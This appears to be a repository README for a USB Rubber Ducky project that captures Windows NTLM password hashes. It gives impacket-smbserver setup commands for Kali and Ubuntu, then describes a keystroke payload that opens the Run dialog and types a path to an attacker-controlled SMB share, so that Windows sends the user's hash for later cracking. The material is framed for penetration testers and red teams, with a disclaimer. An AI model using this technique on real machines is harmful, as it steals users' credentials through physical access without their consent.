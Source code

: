 # Password Hash Grabber (Windows)

This project utilizes a USB Rubber Ducky to capture Windows password hashes in less than two seconds, demonstrating a powerful method for assessing policy compliance and information security awareness. By executing a simple DuckyScript payload, it initiates a CIFS/SMB connection to a targeted listening server to obtain user hash information. This technique is effective across almost all versions of Microsoft Windows and requires minimal privileges, making it a valuable tool for penetration testers and internal red teams.

The critical component of this attack is ****impacket-smbserver from the Impacket suite, an open-source tool designed for such operations. The server needs to be set up on the target network to capture the NTLM hash, timestamp, workstation ID, and user details as Windows attempts to authenticate with the CIFS share.

## Disclaimer

The tools and scripts provided in this repository are made available for educational purposes only and are intended to be used for testing and protecting systems with the consent of the owners. The author does not take any responsibility for the misuse of these tools. It is the end user's responsibility to obey all applicable local, state, national, and international laws. The developers assume no liability and are not responsible for any misuse or damage caused by this program. Under no circumstances should this tool be used for malicious purposes. The author of this tool advocates for the responsible and ethical use of security tools. Please use this tool responsibly and ethically, ensuring that you have proper authorization before engaging any system with the techniques demonstrated by this project.

## Features

This DuckyScript is designed for rapid exfiltration of Windows password hashes by exploiting the SMB (Server Message Block) protocol. When executed, it forces a Windows machine to attempt an SMB connection to a predefined server, triggering an automatic hash exchange process part of the SMB protocol's authentication mechanism.

## Prerequisites

- **Operating System**: Tested on Windows 10 x64, version 22H2, Kali Linux 2023.4, Ubuntu 22.04.4 LTS.
- **Payload Studio**: Tested with Payload Studio Pro version 1.3.1
- **DuckyScript Version**: DuckScript 3.0 Advanced
- **Hardware**: USB Rubber Ducky (2022)

## Usage

### **Step 1: Prepare the impacket-smbserver Environment (Kali Linux)**

1. **Set Up impacket-smbserver**:
    - Verify installation by running one of the Impacket tools or check the installed version: `impacket-smbserver --version`
    - Choose a directory where you want the SMB server to store captured hashes (e.g., `/tmp/`).
    - Run an SMB server using `impacket-smbserver`, by specifying a share name and a path to the folder you want to share, for example: `sudo impacket-smbserver TMP /tmp/`
        
        ```bash
        sudo impacket-smbserver <SHARE_NAME> <PATH_TO_FOLDER>
        ```
        
    - On the Windows target machine, you can access the share by navigating to `\\[KALI_IP_ADDRESS]\TMP` in the File Explorer, where `[KALI_IP_ADDRESS]` is the IP address of your Kali VM.

### **Step 1: Prepare the impacket-smbserver Environment (Ubuntu)**

1. **Install pipx:**
    - Ensure Python3 and pip are installed first.
    - Install `pipx` using pip:
        
        ```bash
        python3 -m pip install --user pipx
        python3 -m pipx ensurepath
        ```
        
2. **Install Impacket**: 
    - With `pipx` installed, you can now proceed to install Impacket. To install the latest stable release of Impacket, run: `python3 -m pipx install impacket`
        - This command will download and install Impacket and its dependencies in an isolated environment while making the Impacket tools available system-wide.
    - Verify installation by running one of the Impacket tools or check the installed version: `impacket-smbserver --version`
3. **Set Up smbserver.py**:
    - Choose a directory where you want the SMB server to store captured hashes (e.g., `/tmp/` on Linux).
    - Run an SMB server using `impacket-smbserver`, by specifying a share name and a path to the folder you want to share, for example: `sudo impacket-smbserver TMP /var/`
        
        ```bash
        sudo impacket-smbserver <SHARE_NAME> <PATH_TO_FOLDER>
        ```
        
    - On the Windows target machine, you can access the share by navigating to `\\[KALI_IP_ADDRESS]\TMP` in the File Explorer, where `[KALI_IP_ADDRESS]` is the IP address of your Kali VM.

### Step 2: **Create the DuckyScript Payload**

- **Write the Payload**: Ensure you replace `example.com` with the actual hostname or IP address of the server running  ****`impacket-smbserver`.

### **Step 3: Deploy the Payload**

- **Load and Execute**: Load the DuckyScript payload onto your USB Rubber Ducky, plug it into the target Windows machine, and let it execute the script. The script quickly opens a Run dialog, attempts to connect to the specified CIFS share, and in the process, sends the NTLM hash to the smbserver.

### Step 4: Capture and Utilize the Hash

- **Monitor impacket-smbserver Output**: The smbserver will output the captured hash information, including the timestamp, workstation ID, user, and NTLM hash. This information can be used for further analysis or cracking attempts.

## How It Works

- **Host Setup**: Before deployment, you must set up an SMB server using Impacket's `impacket-smbserver`. This server will listen for incoming SMB connections and capture NTLM hashes passed during the authentication attempt.
- **Script Execution**: Upon plugging in the USB Rubber Ducky, the script waits for 1 second (`DELAY 1000`) to ensure the system recognizes the device. It then simulates the key combination `GUI r` to open the Run dialog.
- **Connection Initiation**: The script types `\\[HOSTNAME]\[SHARE_NAME]` and hits Enter, where `[HOSTNAME]` is the address of your SMB server and `[SHARE_NAME]` the SMB share name. This action attempts to initiate an SMB connection to the specified server.
- **Hash Capture**: As Windows tries to authenticate with the SMB server, the user's NTLM hash, username, and workstation ID are transmitted. The Impacket `impacket-smbserver` captures this information.
- **Rapid Execution**: This entire process is designed to execute in less than two seconds, showcasing the speed and stealthiness of the attack. It highlights the potential risk and impact of physical access vulnerabilities.

## Output Example

![DuckyScript Payload Results](/images/impacket_smb_results.png)

## Contributing

If you have an idea for an improvement or if you're interested in collaborating, you are welcome to contribute. Please feel free to open an issue or submit a pull request.

## License

This project is licensed under the XYZ License - see the [LICENSE](LICENSE) file for details.
